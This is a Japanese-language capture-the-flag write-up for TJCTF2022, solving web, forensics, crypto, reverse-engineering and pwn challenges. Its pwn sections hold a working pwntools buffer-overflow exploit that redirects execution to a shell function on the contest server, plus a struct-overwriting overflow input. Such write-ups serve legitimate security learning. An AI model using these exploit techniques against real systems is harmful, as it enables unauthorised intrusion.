

# TJCTF2022

Team: Ir0nMaiden

Points: 1141

Rank: 166/768

https://ctftime.org/event/1599

## web/lamb-sauce

664 solves / 116 points

where's the lamb sauce

### writeup

ソースを見るとhrefにてフラグらしきリンクがありました。`https://lamb-sauce.tjc.tf/flag-9291f0c1-0feb-40aa-af3c-d61031fd9896.txt`にアクセスするとフラグがありました。

```html
<!-- <a href="/flag-9291f0c1-0feb-40aa-af3c-d61031fd9896.txt"> is it here? </a> -->
```

```
tjctf{idk_man_but_here's_a_flag_462c964f0a177541}
```

## forensics/fake-geoguessr

522 solves / 121 points

We don't do guess challs here at TJCTF, so that means no Geoguessr 😞 Since I took this photo myself, though, you can find out precisely where it was taken, and some Bonus Content™️, from my Camera Model Name to the Circle Of Confusion. Maybe you'll find a flag there?

### writeup

exiftoolを使うと、フラグが載ってました。

## forensics/cool-school

393 solves / 129 points

Wow TJ is such a cool school! This image really captures the vibes. But something seems off about the image...


### writeup

stegonlineでLSB halfをすると左上にフラグらしき文字列が現れました。このままだと見えないので、カラーバランスを調整すると見えました。


```
tjctf{l0l_st3g_s0_co0l}
```

## crypto/rsa-apprentice

436 solves / 126 points

My friend sent me this secret message but I can't figure out how to decrypt it! Can you help?

### writeup

c1, c2を復号して繋げたらフラグになると思い、別々に復号しました。

```
from Crypto.Util.number import inverse
from Crypto.Util.number import long_to_bytes

n = 1216177716507739302616478655910148392804849
e = 65537
c1 = 257733734393970582988408159581244878149116
c2 = 843105902970788695411197846605744081831851
p = 1033247481589406269253
# q = n // p
q = 1177043968824330681533

d = inverse(e, (p-1)*(q-1))
m1 = pow(c1, d, n)
m2 = pow(c2, d, n)
print(long_to_bytes(m1))
print(long_to_bytes(m2))
```

```bash
b'tjctf{n0t_s0_'
b'S3cur3_Cryp70}'
# tjctf{n0t_s0_S3cur3_Cryp70}
```

## crypto/flimsy-fingered-latin-teacher

364 solves / 132 points

Oh no! My Latin teacher likes to touch type on her Dell laptop, but she has trouble keeping her fingers on the right keys in home row. The letters she's typing out don't really make sense. Can you help me understand what she's saying so she doesn't get upset when I come to her confused?

`ykvyg}pp[djp,rtpelru[pdoyopm|`

### writeup

与えられた文字列がtjctf{...}と場所が一致してそうだった。Dellのlaptopで打ち間違えと言っているし、USキーボードで打ち間違えた結果、`ykvyg}pp[djp,rtpelru[pdoyopm|`となったと思った。
すると、ちょうど1個左の文字がtjctf{...}となることがわかった。

```
tjctf{oopshomerowkeyposition}
```

## rev/take-a-l

219 solves / 155 points

I need W :angry:

### writeup

angryと書かれているので、angrを使います。puts("W")を呼び出すstatementをfind, puts("L")をavoidとしました。



```python
import angr
import claripy
import monkeyhex
src = "./chall"
base_addr = 0x400000
find_addr = base_addr + 0x1267  # correct address
avoid_addr = base_addr + 0x1203  # incorrect address
avoid_addr2 = base_addr + 0x1245  # incorrect address


proj = angr.Project(src, auto_load_libs=False)
state = proj.factory.entry_state(args=[src, 'key.dat'])
simgr = proj.factory.simulation_manager(state)
simgr.explore(find=find_addr, avoid={avoid_addr,avoid_addr2})

if len(simgr.found) > 0:
    print(simgr.found[0].posix.dumps(0))
```

```bash
$ python3 take-a-l.py
WARNING | 2022-05-14 20:06:42,245 | cle.loader | The main binary is a position-independent executable. It is being loaded with a base address of 0x400000.
WARNING | 2022-05-14 20:06:42,704 | angr.storage.memory_mixins.default_filler_mixin | The program is accessing memory or registers with an unspecified value. This could indicate unwanted behavior.
WARNING | 2022-05-14 20:06:42,704 | angr.storage.memory_mixins.default_filler_mixin | angr will cope with this by generating an unconstrained symbolic variable and continuing. You can resolve this by:
WARNING | 2022-05-14 20:06:42,704 | angr.storage.memory_mixins.default_filler_mixin | 1) setting a value to the initial state
WARNING | 2022-05-14 20:06:42,704 | angr.storage.memory_mixins.default_filler_mixin | 2) adding the state option ZERO_FILL_UNCONSTRAINED_{MEMORY,REGISTERS}, to make unknown regions hold null
WARNING | 2022-05-14 20:06:42,704 | angr.storage.memory_mixins.default_filler_mixin | 3) adding the state option SYMBOL_FILL_UNCONSTRAINED_{MEMORY,REGISTERS}, to suppress these messages.
WARNING | 2022-05-14 20:06:42,705 | angr.storage.memory_mixins.default_filler_mixin | Filling memory at 0x7fffffffffeff60 with 8 unconstrained bytes referenced from 0x500018 (strlen+0x0 in extern-address space (0x18))
b'tjctf{gggamersssssssss5s}\x08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```

## pwn/vacation-1

162 solves / 175 points

Too much school, too much work, too much writing CTF challenges... can I just go on vacation?

### writeup

配布されたchall.cを見るとrip系でした。

```c
#include <stdio.h>
#include <stdlib.h>

void shell_land() {
  system("/bin/sh");
}

void vacation() {
  char buf[16];
  puts("Where am I going today?");
  fgets(buf, 64, stdin);
}

void main() {
  setbuf(stdout, NULL);
  vacation();
  puts("hmm... that doesn't sound very interesting...");
}
```

straceでSISGSEGVが発生する境界を見つけたあとは、アラインメント用のretシンボルを流し、shell_landのシンボルを流しました。

```bash
$ python3 -c 'print("A"*24)' | strace -i ./challp
...
[00007f88756c8549] fstat(0, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0
[00007f88756cf2bb] brk(NULL)            = 0x22eb000
[00007f88756cf2bb] brk(0x230c000)       = 0x230c000
[00007f88756c9002] read(0, "AAAAAAAAAAAAAAAAAAAAAAAA\n", 4096) = 25
[000000000040000a] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_ACCERR, si_addr=0x40000a} ---
[????????????????] +++ killed by SIGSEGV +++
Segmentation fault
```

```python
from pwn import *

binfile = "./challp"
context.binary = binfile
elf = ELF(binfile)

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]

shell_land = elf.symbols['shell_land']
HOST='tjc.tf'
PORT=31680

conn = remote(HOST, PORT)
conn.recvuntil(b'Where am I going today?\n')

# padding + ret(8byte, allignment) + fun(=/bin/sh)
payload = b'A' * 24 + p64(ret) + p64(shell_land)

conn.sendline(payload)
conn.interactive()
```

```bash
% python3 solver.py
[*] 'chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './chall'
[+] Opening connection to tjc.tf on port 31680: Done
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to tjc.tf port 31680
```

## pwn/favorite-color

142 solves / 185 points

I want to learn more about your favorite colors!

### writeup

ソースファイルの後ろの方で、フラグを読み出している操作がありました。ここを通すために、`scanf("%s", &(c.friendlyName));`をBoFによって、c.r, c.g, c.bの値を変えます。

```c
    scanf("%s", &(c.friendlyName));

    c.r = r;
    c.g = g;
    c.b = b;

    printf("%s (%d, %d, %d) is a pretty cool color... but it's not as cool as %s (%d, %d, %d)...\n",
           c.friendlyName, c.r, c.g, c.b,
           myFavoriteColor.friendlyName, myFavoriteColor.r, myFavoriteColor.g, myFavoriteColor.b);

    if (c.r == myFavoriteColor.r && c.g == myFavoriteColor.g && c.b == myFavoriteColor.b)
    {
        puts("oh wait...");
        puts("it seems as if they're the same...");

        char buf[100] = {0};
        FILE *file = fopen("./flag.txt", "r");
        if (file == NULL)
        {
            puts("no flag!!! feels bad L");
            exit(1);
        }

        fgets(buf, 64, file);
        printf("here's a flag: %s", buf);
        fclose(file);
    }
```

色々入力したところし、"A"*37文字以降の3文字を調整すればいいことが分かりました。また、リトルエンディアンを考慮しないといけないのか、"4"(dec: 52, hex: 34), "T"(dec: 84, hex: 54), "0"(dec: 48, hex: 30)と並べないといけませんでした。

```bash
$ nc tjc.tf 31453
what's your favorite color's rgb value? (format: r, g, b)
50, 84, 52
good... good... and its pretty name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA244
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA442AA244 (52, 52, 50) is a pretty cool color... but it's not as cool as purple (50, 84, 52)...
$ nc tjc.tf 31453
what's your favorite color's rgb value? (format: r, g, b)
50, 84, 52
good... good... and its pretty name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA444
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA444AA444 (52, 52, 52) is a pretty cool color... but it's not as cool as purple (50, 84, 52)...
$ nc tjc.tf 31453
what's your favorite color's rgb value? (format: r, g, b)
50, 84, 52
good... good... and its pretty name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4T0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0T4AA4T0 (48, 84, 52) is a pretty cool color... but it's not as cool as purple (50, 84, 52)...
$ nc tjc.tf 31453
what's your favorite color's rgb value? (format: r, g, b)
50, 84, 52
good... good... and its pretty name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4T2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2T4AA4T2 (50, 84, 52) is a pretty cool color... but it's not as cool as purple (50, 84, 52)...
oh wait...
it seems as if they're the same...
here's a flag: tjctf{i_l1k3_gr3y_a_l0t_f49ad3}
```
